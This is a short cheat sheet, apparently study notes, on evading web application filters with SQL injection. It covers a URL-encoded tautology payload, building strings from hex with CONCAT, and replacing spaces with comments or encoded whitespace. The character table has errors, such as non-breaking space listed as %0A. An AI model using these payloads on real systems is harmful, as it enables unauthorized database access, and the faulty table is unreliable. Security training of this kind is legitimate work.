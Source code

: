 # Filter Evaison Techniques

## 1. URL Encoding
Bypass web application filters.

Original payload:
```sh
1' || 1=1--
```

Encoded (the + adds a space to avoid errors):
```sh
1%27%20||%201=1%20--+
```

## 2. Hexadecimal Encoding
Bypass filters that do not decode these values before processing.

## 3. Unicode Encoding
Bypass filters that only check ASCII characters.

## 4. No-Quote Injection
If a filter strips `'` and `"` there are still options available.

### 4.1 Numerical values
Sometimes quotes are not needed at all a string like "john smith" can just be `1` and not require quoting.

### 4.2 SQL Comments
Use a comment to terminate the rest of the query. `admin'--` can just be `admin--`

### 4.3 Concat
You can build strings without using quotes. The following example constructs the string "admin"

```sql
CONCAT(0x61, 0x64, 0x6d, 0x69, 0x6e)
```

## 5. No Spaces Allowed
When spaces are filtered out  we can apply the following techniques:

### 5.1 Replace with comments
```sql
SELECT * FROM Users WHERE name = 'admin'

SELECT/**//*FROM/**/Users/**/WHERE/**/name/**/=/**/'admin'
```

### 5.2 Replace with tab / newline
```sql
SELECT\t*\tFROM\tUsers\tWHERE\tname\t=\t'admin'
```

### 5.3 Alternate characters
| Encoded | Character |
| ------- | --------- |
| `%09` | Horizontal Tab |
| `%0A` | Line feed |
| `0C` | Form feed |
| `%0D` | Carriage return |
| `%0A` | Non-breaking space |


